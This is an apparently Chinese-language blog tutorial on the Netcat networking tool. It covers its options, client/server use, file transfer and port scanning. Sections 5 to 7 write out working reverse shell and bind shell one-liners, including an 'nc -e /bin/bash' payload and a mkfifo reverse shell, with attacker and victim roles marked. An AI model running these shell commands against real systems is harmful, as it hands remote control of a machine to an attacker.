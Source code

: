 ```yaml
---
layout: post
title:  "Netcat"
date:   6 June 2025
categories: Demo
tags: Cybersecurity
---
```

<html>
<body>
<div markdown="block" style="margin-top: 10px">
    
### 介紹
Netcat (nc) 是一個簡單的 Unix 工具，用來透過網路連線讀取與寫入資料，支援 TCP 或 UDP 協定  
  
它被設計為一個可靠的後端工具，可以直接使用，也可以很容易地被其他程式或腳本驅動
  
  
### 基本使用(synopsis)
```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```
  
  
### 參數(options)
```
-c string    specify shell commands to exec after connect (use with caution).  The string is passed
            to  /bin/sh  -c  for execution.  See the -e option if you don't have a working /bin/sh
            (Note that POSIX-conformant system must have one).

-e filename  specify filename to exec after connect (use with caution).  See the -c option for  en‐
            hanced functionality.

-g gateway   source-routing hop point[s], up to 8

-G num       source-routing pointer: 4, 8, 12, ...

-h           display help

-i secs      delay interval for lines sent, ports scanned

-l           listen mode, for inbound connects

-n           numeric-only IP addresses, no DNS

-o file      hex dump of traffic
-p port      local port number (port numbers can be individual or ranges: lo-hi [inclusive])

-q seconds   after  EOF on stdin, wait the specified number of seconds and then quit. If seconds is
            negative, wait forever.

-b           allow UDP broadcasts

-r           randomize local and remote ports

-s addr      local source address

-t           enable telnet negotiation

-u           UDP mode

-v           verbose [use twice to be more verbose]

-w secs      timeout for connects and final net reads

-C           Send CRLF as line-ending

-z           zero-I/O mode [used for scanning]

-T type      set TOS flag (type may be one of "Minimize-Delay",  "Maximize-Throughput",  "Maximize-
            Reliability", or "Minimize-Cost".)
```
其中挑幾個比較常用的介紹：
- `-u`: 指定使用UDP(Netcat默認使用TCP)
- `-s`: 指定IP地址/Hostname
- `-l`: 使用監聽模式
- `-p`: 指定port
- `-v`: 更詳細的結果
- `-n`: 指定只能使用IP地址(no DNS)
- `-w`: 指定timeout/sec(如-w3表示3秒)
- `-z`: 做端口掃描(zero-I/O,指不會發送任何訊息只做端口探測)
  

### 常用指令&場景(frequently used commands & scenarios)
1. TCP Client & Server: 
```bash
nc 192.168.32.24 5000   #tcp client: 可用來手動測試HTTP、SMTP、FTP等基於TCP的協議
nc -lvp 5000            #tcp server: 配合反向shell使用或接收資料
```

2. UDP Client & Server:
```bash
nc -u 192.168.32.24 5000    #udp client: 可用來手動測試HTTP、SMTP、FTP等基於TCP的協議
nc -luvp 5000               #udp server: 用來測試UDP回應或用在簡單的echo server
```

3. 傳送資料到TCP/UDP服務
```bash
echo "hello" | nc -nv 192.168.32.24 5000        #測試tcp下該port有沒有回應
echo "ping" | nc -u -nv 192.168.32.24 5000      #測試udp下該port有沒有回應
```

4. 檔案傳送用TCP
- 傳送端
```bash
nc -lvp 5000 < secret.txt
```
- 接收端
```bash
nc localhost 5000 > secret.txt
```

5. Reverse Shell(攻擊者先開啟監聽，受害者把它的shell丟給攻擊者)
- 攻擊者(監聽者,假設192.168.2.3)
```bash
nc -lvp 5000
```
- 受害者(執行payload)
```bash
nc 192.168.2.3 5000 -e /bin/bash
```

6. Bind Shell(受害者變監聽端)
- 受害者(監聽者,假設192.168.2.4)
```bash
nc -lvp 5000 -e /bin/bash
```
- 攻擊者
```bash
nc 192.168.2.4 5000
```

7. Reverse Shell(using mkfifo, recommended)
- 假設攻擊者IP=192.168.2.3
```bash
mkfifo /tmp/f; /bin/sh < /tmp/f | nc 192.168.2.3 4444 > /tmp/f
```

8. Port Scanning(還是推薦Nmap,Netcat只推薦在不想那麼麻煩的情況下)
```bash
nc -zv 192.168.1.0 20-1000
```
  
  
### 參考資料(Reference)
- [Netcat Linux Command Manpage](https://www.commandlinux.com/man-page/man1/nc.1.html)
- [nc Command (Netcat) with Examples](https://phoenixnap.com/kb/nc-command)
</div>
</body>
</html>
